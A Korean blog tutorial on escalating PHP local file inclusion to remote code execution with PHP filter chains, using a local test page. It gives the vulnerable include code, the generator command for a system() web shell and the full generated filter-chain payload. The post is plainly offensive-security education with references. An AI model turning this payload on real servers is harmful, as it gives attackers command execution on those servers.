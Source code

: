 ```yaml
---
title: '[Tip] Local file inclusion to RCE using PHP Filters'
author: hoppi
date: 2023-02-17 18:27:00 + 0000
categories: [Tip]
tags: [php, lfi, lfi2rce]
---
```


예전에 유튜브로 [핵더박스 롸업](https://www.youtube.com/watch?v=yW_lxWB1Yd0&t=2430s)을 보다가 발견한 아주 신기한 것을 발견해서 설명하고자 합니다. 제목에서도 알 수 있듯이 LFI를 RCE로 바꿔버리는 엄청난 방법인데 무려 어떤 파일의 생성이나 그 파일에 코드를 쓸 필요가 없습니다. 이 페이로드를 쓰게되면 literal(?)한 문자열, php 웹쉘 코드를 생성할 수 있습니다. 그렇게되면 `include()`의 특성상 이 php 코드를 실행할 수 있게되겠죠.  

간단하게 테스트 페이지를 통해서 해봅시다. (맥북에서 하려고하니 나중에 `Unable to create filter (convert.iconv.UTF8.UTF7)` 이런 오류가 뜨는데 맥에서는 해당 `iconv`를 지원하지 않는 것 같았습니다. 그러므로 VM을 이용하여 리눅스에서 올리는 편이 좋을 것 같습니다. 저는 구름ide를 이용했습니다)  
```php
<h2>Test Page</h2>
<p>include: </p>
<?php include($_GET['page']); ?>
```
{: file='index.php'}
<br/>

```php
<p>Included Page</p>
<?php echo "hi i'm hoppi"; ?>
```
{: file='index.php'}
<br/>

```zsh
php -S 127.0.0.1:4370
```
<br>

이런상황에서 보통 아래처럼 `php wrapper`를 통한 LFI를 하여 소스코드 유출을 할 수가 있죠.  
![wrapper](../../../assets/img/2023-02-17/wrapper.png){: w="700" h="350" }  
<br/>

하지만 [lfi2rce](https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py)를 이용하면 더 나아가 명령어를 실행할 수 있어집니다.
이 스크립트를 다운받고 아래 명령어를 통해서 웹쉘을 가능하게 하는 페이로드를 생성합니다.  
```zsh
python3 php_filter_chain_generator.py --chain '<?php system($_GET["c"]);?>'
```
<br/>

그러면 아래 사진과 같이 매우 긴 페이로드가 생성됩니다.
![payload](../../../assets/img/2023-02-17/payload.png){: w="700" h="350" }  
<br/>

```plaintext
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```
{: file='created payload'}
<br/>

참고로 페이로드 마지막에 넣는 `php://temp`는 정상적으로 실행은 하지만 아무것도 출력하지 않습니다. 한 가지 트릭인 셈이죠. `temp`으로 시작하기만 한다면 `temp1231231`이든 `tempasdasdasd`이든 정상적으로 실행이 됩니다.  
![temp](../../../assets/img/2023-02-17/temp.png){: w="700" h="350" }  
<br/>

생성된 페이로드와 `id`명령어를 넣었더니 정상적으로 RCE가 된 모습을 볼 수 있습니다. 정말 신기하죠???
![rce](../../../assets/img/2023-02-17/rce.png){: w="700" h="350" }  
<br/>

더욱더 자세한 설명은 레퍼런스를 통해서 확인해 볼 수 있습니다.  
<br/>

# Reference
***
- [https://www.youtube.com/watch?v=TnLELBtmZ24](https://www.youtube.com/watch?v=TnLELBtmZ24)
- [https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters)
- [https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py](https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py)



